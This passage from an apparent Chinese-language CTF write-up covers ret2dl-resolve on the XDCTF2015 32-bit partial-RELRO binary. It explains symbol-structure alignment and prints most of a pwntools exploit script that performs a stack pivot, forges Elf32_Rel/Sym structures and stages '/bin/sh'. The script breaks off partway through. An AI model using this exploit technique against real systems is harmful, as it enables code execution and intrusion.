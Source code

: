 因为这个结构体的大小为16字节，所以要符合16字节的对齐方式，下面是计算填充的方法：

```python
real_dynsym_start_addr=elf.get_section_by_name('.dynsym').header.sh_addr

fake_write_Elf32_Sym_addr=new_stack_esp+4*9
align=0x10-((fake_write_Elf32_Sym_addr-real_dynsym_start_addr)&0xf) #计算要对齐的数值
fake_write_Elf32_Sym_addr=fake_write_Elf32_Sym_addr+align           #重新计算fake_Elf32_Sym地址
```

完整的exp如下：

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649


new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

jmp_to_dl_runtime_resolve_addr=0x08048370
string="/bin/sh\x00"

fake_write_Elf32_Rel_addr=new_stack_esp+4*7 #一个p32占四字节，执行leave中的pop ebp后开始计算
                                            #fake_write_addr指fake_write_Elf32_Rel的地址
rel_plt_start_addr=0x8048324
fake_reloc_arg=fake_write_Elf32_Rel_addr-rel_plt_start_addr

#fake_r_offset=elf.got['write']  
#fake_r_info=0x607
#fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体

fake_st_name=0x080482B8-0x0804826C  
fake_st_valve=0
fake_st_size=0 
fake_st_info=0x12
fake_st_other=0
fake_st_shndx=0
fake_write_Elf32_Sym=p32(fake_st_name)+p32(fake_st_valve)+p32(fake_st_size)+p8(fake_st_info)+p8(fake_st_other)+p16(fake_st_shndx)

real_dynsym_start_addr=elf.get_section_by_name('.dynsym').header.sh_addr

fake_write_Elf32_Sym_addr=new_stack_esp+4*9
align=0x10-((fake_write_Elf32_Sym_addr-real_dynsym_start_addr)&0xf) #进行对齐
fake_write_Elf32_Sym_addr=fake_write_Elf32_Sym_addr+align           #重新计算fake_Elf32_Sym地址

fake_r_offset=elf.got['write']   
dynsym_index=(fake_write_Elf32_Sym_addr-real_dynsym_start_addr)/0x10
```